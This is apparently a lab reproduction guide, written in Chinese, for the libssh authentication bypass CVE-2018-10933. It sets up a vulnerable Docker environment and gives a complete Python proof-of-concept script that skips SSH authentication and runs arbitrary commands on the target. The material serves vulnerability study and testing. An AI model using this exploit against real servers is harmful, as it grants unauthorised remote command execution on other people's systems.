


# libssh 服务端权限认证绕过漏洞（CVE-2018-10933）

libssh是一个提供ssh相关接口的开源库，包含服务端、客户端等。其服务端代码中存在一处逻辑错误，攻击者可以在认证成功前发送`MSG_USERAUTH_SUCCESS`消息，绕过认证过程，未授权访问目标SSH服务器。

参考资料：

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

## 漏洞环境

执行如下命令启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，我们可以连接`your-ip:2222`端口（账号密码：`myuser:mypassword`），这是一个合法的ssh流程：



## 漏洞复现

参考 https://www.seebug.org/vuldb/ssvid-97614 中给出的POC，我们编写一个简单的漏洞复现脚本：

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

```

使用python3执行，即可在目标服务器上执行任意命令：


